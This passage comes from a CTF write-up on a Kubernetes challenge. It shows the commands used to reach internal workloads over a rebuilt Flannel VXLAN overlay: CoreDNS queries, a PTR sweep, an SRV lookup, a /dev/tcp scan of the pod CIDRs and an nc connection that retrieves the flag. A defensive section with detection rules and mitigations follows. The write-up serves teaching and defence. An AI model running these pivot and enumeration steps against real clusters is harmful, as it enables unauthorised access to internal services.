


Verify:

```bash
ip route | grep 10.42
```



## Find CoreDNS


With the VXLAN interface, FDB entries, ARP mappings, and routing configuration in place, the bastion can now communicate directly with resources inside the Kubernetes overlay network. The next objective is identifying a DNS server capable of revealing information about internal cluster services.

In Kubernetes environments, service discovery is typically handled by CoreDNS. Every Service, Pod, and Namespace relies on DNS records maintained by CoreDNS to locate internal resources.

Rather than blindly scanning the cluster, querying CoreDNS provides a controlled method of discovering internal infrastructure and validating that overlay connectivity is functioning correctly.


CoreDNS acts as a central source of truth for service discovery inside the cluster.

Successful communication with CoreDNS confirms that:

* The VXLAN tunnel is functioning correctly.
* Routes to internal networks are valid.
* Overlay traffic can reach Kubernetes workloads.
* Responses can successfully return to the bastion.

A successful DNS query is often the first proof that the manually constructed overlay network is operating as intended.


Although Kubernetes RBAC may prevent access to Services, Endpoints, and Pods through the API, DNS infrastructure frequently remains reachable from any workload inside the cluster.

Once an attacker gains network-level access to the overlay, CoreDNS can become an alternative source of information about internal resources that would otherwise be hidden by API permissions.

This highlights the distinction between:

* **Control Plane Security** (Kubernetes API permissions)
* **Data Plane Security** (actual network reachability)

Even when control-plane visibility is restricted, data-plane access may still expose valuable information.


A successful query to CoreDNS demonstrates that the bastion has effectively joined the Kubernetes overlay network and can interact with internal services.

At this point:

* Overlay networking is validated.
* Internal DNS infrastructure is reachable.
* Cluster-local records can be queried.
* Further service discovery can be performed using DNS rather than Kubernetes API access.

This marks the transition from network reconstruction to internal service enumeration, enabling discovery of hidden workloads and challenge-specific targets.

Test likely DNS pod:

```bash
dig @10.42.1.2 cluster.local SOA
```

If you get an answer:

```text
cluster.local ...
```

CoreDNS is:

```text
10.42.1.2
```



## PTR Sweep Services


After confirming that CoreDNS is reachable, the next objective is discovering what services exist inside the cluster. Direct enumeration through the Kubernetes API is restricted, so DNS becomes the primary source of visibility.

A reverse DNS (PTR) sweep against the Service CIDR allows the bastion to identify service names associated with internal cluster IP addresses. Instead of querying for known services, this approach systematically asks CoreDNS whether any Service IPs have corresponding DNS records.

This technique leverages the cluster's own service discovery mechanism to reveal infrastructure that would otherwise remain hidden.


Kubernetes assigns every Service a virtual IP from the Service CIDR.

By performing a PTR sweep:

* Service IPs can be mapped to DNS names.
* Hidden or challenge-specific services can be identified.
* Internal infrastructure becomes visible without API access.
* Enumeration can be performed passively through DNS rather than active network scanning.

This is often significantly faster than probing every service port across the cluster.


DNS frequently contains information that exceeds what is exposed through RBAC-restricted Kubernetes APIs.

While the service account may be unable to list Services or Endpoints, DNS records often reveal:

* Service names
* Namespaces
* Cluster roles
* Internal application naming conventions

As a result, DNS can unintentionally function as an alternative inventory source for attackers who have gained network-level access.


The PTR sweep converts the Service CIDR from a collection of unknown IP addresses into identifiable Kubernetes services.

Successful results provide:

* Service names.
* Namespace information.
* Potential targets for further investigation.
* Insight into cluster architecture.

Any discovered service that differs from standard Kubernetes infrastructure components becomes a high-value target for subsequent enumeration and interaction.

This step narrows the search space dramatically and often reveals the challenge-specific service that ultimately contains the flag or intended objective.

```bash
for i in $(seq 1 254); do
    dig +short @10.42.1.2 -x 10.43.0.$i
done
```



Or cleaner:

```bash
for i in $(seq 1 254); do
  ans=$(dig +short @10.42.1.2 -x 10.43.0.$i)
  [ -n "$ans" ] && echo "10.43.0.$i -> $ans"
done
```


## Discover Port


The PTR sweep has identified one or more interesting services within the Kubernetes cluster, but DNS records alone do not reveal how those services are exposed. To interact with a discovered service, the next objective is determining which network port it is listening on.

Unlike Kubernetes API enumeration, which would normally expose Service specifications and port mappings, the current access level provides only network visibility. As a result, service exposure must be determined through direct network reconnaissance.

At this stage, the focus shifts from **service discovery** to **service characterization**.

Knowing that a service exists is only part of the picture. To communicate with it, the following information is required:

* The service IP address.
* The protocol in use.
* The listening port.
* Any application-specific behavior exposed through that port.

Without identifying the correct port:

* Connections will fail.
* Application protocols cannot be determined.
* Challenge-specific functionality remains inaccessible.

Port discovery bridges the gap between locating a service and interacting with it.

This phase demonstrates how network-level access can compensate for restricted Kubernetes permissions.

Although the service account cannot retrieve:

* Service objects,
* Endpoint objects,
* Pod definitions,

the cluster network itself still exposes enough information for traditional reconnaissance techniques.

Once an attacker gains access to the overlay network, service identification often becomes a matter of network enumeration rather than Kubernetes enumeration.

The goal of this step is to identify the specific listening port associated with the target service.

A successful result provides:

* A reachable application endpoint.
* The communication channel required by the challenge.
* Insight into the application's purpose or protocol.
* The final connection point needed to interact with the target workload.

With both the service address and listening port identified, the bastion can begin communicating directly with the target application and proceed toward challenge completion.

```bash
dig @10.42.1.2 SRV flag-server.target.svc.cluster.local +short
```

Expected:

```text
0 100 31337 flag-server.target.svc.cluster.local.
```

Port:

```text
31337
```



## Find Pod Behind Service


The target service has been identified and its listening port discovered. However, Kubernetes Services are virtual constructs that act as load-balancing frontends rather than actual workloads. The Service IP itself does not process requests; it forwards traffic to one or more backend Pods.

To fully understand the target and interact directly with the workload, the next objective is identifying the Pod IP associated with the Service.

Since Kubernetes API access is restricted, traditional methods such as inspecting Endpoints or EndpointSlices are unavailable. Instead, the backend Pod must be located through network-based enumeration and observation.


A Service provides an abstraction layer between clients and workloads.

Identifying the backing Pod allows:

* Direct communication with the application.
* Validation of which workload is handling requests.
* More accurate network reconnaissance.
* Elimination of Service-level abstractions that may hide implementation details.

In CTF environments, challenge-specific functionality is often implemented within the Pod itself, making backend discovery a valuable step.


This stage highlights a common distinction between Kubernetes abstractions and actual network reachability.

Even when RBAC prevents access to:

* Pods
* Endpoints
* EndpointSlices
* Services

an attacker who has gained overlay-network access can often infer backend infrastructure through network analysis alone.

The inability to query Kubernetes objects does not necessarily prevent discovery of the workloads those objects represent.


The objective of this step is to determine which Pod is serving traffic for the target Service.

A successful result provides:

* The Pod IP associated with the application.
* Visibility into the actual workload behind the Service.
* A direct communication path to the target container.
* Additional context about the application's placement within the cluster.

Once the backing Pod has been identified, interaction can move beyond Kubernetes service abstractions and directly target the workload responsible for the challenge functionality.

Scan pod CIDRs:

```bash
for cidr in 10.42.0 10.42.1 10.42.2; do
  for i in $(seq 2 30); do
    timeout 1 bash -c "echo > /dev/tcp/$cidr.$i/31337" 2>/dev/null \
      && echo "$cidr.$i"
  done
done
```

Expected:

```text
10.42.1.4
```



## Get Flag


At this point, the Kubernetes overlay network has been successfully reconstructed from outside the cluster using information exposed through Node metadata. The bastion host can communicate with internal workloads, discover services through CoreDNS, identify the target service, determine its listening port, and locate the backing Pod.

The challenge objective is no longer network discovery; it is interaction with the challenge workload itself.

All previous steps were focused on building visibility and reachability. This step converts that access into execution of the intended challenge action.


The challenge demonstrates that restricting Kubernetes API permissions does not necessarily prevent access to internal workloads.

Through the combination of:

* Node enumeration
* Flannel metadata extraction
* VXLAN reconstruction
* DNS-based service discovery
* Network reconnaissance

an external host was able to gain functional access to resources that were never exposed through the Kubernetes control plane.

The final interaction validates that the reconstructed overlay network provides the same level of access that a legitimate cluster workload would possess.


This challenge illustrates a classic separation between **control-plane security** and **data-plane security**.

Although RBAC successfully prevented access to:

* Pods
* Services
* Endpoints
* Secrets

the networking layer exposed sufficient information to bypass those restrictions indirectly.

Once an attacker can participate in the overlay network, internal service discovery and communication can often proceed without requiring additional Kubernetes permissions.


The target application accepts a specific request and returns the challenge flag when the expected input is provided.

Successful completion demonstrates that:

* Overlay network access was established correctly.
* Internal service discovery was successful.
* The target workload was identified accurately.
* End-to-end communication with the application is functioning.

The flag serves as proof that the attacker successfully traversed the path from limited Kubernetes metadata access to direct interaction with an otherwise inaccessible internal workload.


```bash
printf "flag\n" | nc -w 3 10.42.1.4 31337
```







# Defensive Operations

## Strategic Overview

* **1.1 Definition:** A Kubernetes network-pivot attack leveraging Flannel VXLAN metadata exposed through Node objects. The adversary reconstructs the cluster overlay network externally, bypassing RBAC restrictions and gaining direct access to internal workloads.

* **1.2 Impact:** Internal service exposure and unauthorized access to cluster workloads. An attacker with only `nodes/get,list` permissions can discover hidden services, identify backend pods, and communicate directly with applications that are otherwise inaccessible through the Kubernetes API.

* **1.3 The Scenario:** A low-privileged service account is granted access to list Node objects. Node annotations reveal Flannel VXLAN configuration, Pod CIDRs, and VTEP information. The attacker manually joins the overlay network, discovers CoreDNS, enumerates internal services via DNS, identifies the challenge workload, and retrieves the flag directly from a backend pod.

## System Architecture & Theory

* **2.1 Protocol Environment:** Kubernetes (k3s), Flannel VXLAN, CoreDNS, Linux Networking Stack, VXLAN (UDP/8472), DNS, TCP Services.

* **2.2 Attack Logic Flow:**

> [Node Enumeration] -> [Flannel Metadata Extraction] -> [VXLAN Interface Creation] -> [FDB Reconstruction] -> [ARP Reconstruction] -> [Route Injection] -> [CoreDNS Discovery] -> [DNS Service Enumeration] -> [Backend Pod Discovery] -> [Direct Workload Access]

* **2.3 Theoretical Analogy:** An attacker is denied access to the building directory (Kubernetes API resources), but finds engineering blueprints (Node metadata) describing the private tunnel network beneath the building. By recreating the tunnel connections externally, the attacker gains direct access to offices that were never intended to be reachable.

## Attack Vector (Mechanics)

### Core Mechanism

| Attribute               | Technical Details                                                                                                                                                                                                                          |
| :---------------------- | :----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Primary Identifiers** | Kubernetes Nodes, Flannel VXLAN, `flannel.alpha.coreos.com/backend-data`, `flannel.alpha.coreos.com/public-ip`, Pod CIDRs, Service CIDR, CoreDNS, VXLAN VNI 1.                                                                             |
| **Critical Weakness**   | Exposure of cluster networking metadata through Node objects enabled reconstruction of the Flannel overlay network despite restrictive RBAC permissions.                                                                                   |
| **Offensive Action**    | Extracted node IPs, Pod CIDRs, and VTEP MAC addresses from Node annotations. Recreated the Flannel VXLAN data plane locally by rebuilding FDB, ARP, and routing tables, allowing direct access to internal cluster services and workloads. |


### Prerequisites

* **Access Level:** Service account with `get,list` permissions on Nodes.
* **Connectivity:** Network access to Kubernetes node underlay addresses.
* **Target State:** Cluster using Flannel VXLAN with metadata exposed through Node annotations.


## Threat Hunting & Anomaly Analysis

* **Hunt Hypothesis:** An attacker is abusing exposed Node metadata to manually participate in the Flannel overlay network and enumerate internal services without Kubernetes API permissions.

* **Behavioral Outliers:**

  * Bastion hosts creating VXLAN interfaces manually.
  * Unexpected FDB modifications using `bridge fdb`.
  * Static ARP entries targeting Pod CIDRs.
  * DNS PTR sweeps against Service CIDRs.
  * Direct connections to Pod IPs from non-cluster systems.

* **Toxic Combinations:**

  * `nodes/list` permissions.
  * Flannel VXLAN deployment.
  * Lack of network segmentation between bastion systems and node underlay networks.
  * Reachable CoreDNS from unauthorized hosts.


## Detection Engineering

* **Telemetry Gap Analysis:**

  * **Kubernetes Audit Logs:** Detect unusual access to Node objects.
  * **Host Network Logs:** Monitor creation of VXLAN interfaces and static routing changes.
  * **DNS Logs:** Identify PTR sweeps against Service CIDRs.
  * **Flow Logs:** Detect external systems communicating directly with Pod networks.

* **Detection-as-Code (KQL):**

```kql
// Detect excessive node enumeration
KubernetesAudit
| where Verb in ("get","list")
| where ObjectRef_Resource == "nodes"
| summarize Count=count() by User_Username, bin(TimeGenerated, 15m)
| where Count > 10
```

* **Resilience Test:** Adversaries may perform slower enumeration or distribute requests across multiple service accounts to avoid thresholds.

* **Sub-Rule:** Alert when hosts outside the cluster begin communicating directly with Pod CIDRs (`10.42.0.0/16`) or Service CIDRs (`10.43.0.0/16`).


## Toolkit & Implementation

* **Automation:** `kubectl`, `ip`, `bridge`, `dig`, `nc`, `tcpdump`, native Linux networking utilities.

* **OPSEC Analysis:** The attack avoids traditional Kubernetes enumeration of Pods, Services, Endpoints, and Secrets. Discovery occurs through networking and DNS, generating significantly fewer Kubernetes audit events.

* **Post-Exploitation:** Enumeration of hidden workloads, discovery of internal services, direct interaction with backend applications, and potential access to sensitive workloads isolated by RBAC rather than network controls.


## Defensive Mitigation

* **Technical Hardening:**

  * Remove unnecessary `nodes/get` and `nodes/list` permissions.
  * Restrict access to Node annotations containing networking metadata.
  * Implement network segmentation between bastion hosts and Kubernetes nodes.
  * Apply Network Policies preventing unauthorized access to CoreDNS and Pod networks.
  * Monitor and restrict VXLAN traffic originating from non-cluster hosts.

* **Personnel Focus:**

  * Train Kubernetes administrators to treat Node metadata as sensitive infrastructure information.
  * Incorporate overlay-network exposure reviews into cluster hardening assessments.
  * Validate that RBAC restrictions are supplemented with network-layer protections.


## Quick-Action Playbook

|  Step  | Objective                       | Technical Command / Logic                                                               |
| :----: | :------------------------------ | :-------------------------------------------------------------------------------------- |
| **01** | **Enumerate Nodes**             | Query Kubernetes Node objects and review accessible metadata.                           |
| **02** | **Extract Flannel Metadata**    | Collect node IPs, Pod CIDRs, and VXLAN endpoint MAC addresses from Flannel annotations. |
| **03** | **Create VXLAN Interface**      | Configure a local VXLAN interface using Flannel's VNI and UDP port settings.            |
| **04** | **Populate FDB Entries**        | Associate remote VTEP MAC addresses with Kubernetes node underlay IP addresses.         |
| **05** | **Build ARP & Routes**          | Configure static neighbor entries and routes for all Pod CIDRs.                         |
| **06** | **Validate Overlay Access**     | Confirm connectivity by querying CoreDNS over the reconstructed overlay network.        |
| **07** | **Enumerate Internal Services** | Perform DNS enumeration against the Service CIDR to identify hidden services.           |
| **08** | **Discover Service Port**       | Query SRV records to determine the target application's listening port.                 |
| **09** | **Locate Backend Workload**     | Identify the backing pod by scanning Pod CIDRs and correlating service responses.       |
| **10** | **Access Internal Application** | Connect directly to the pod IP and interact with the workload to obtain the flag.       |
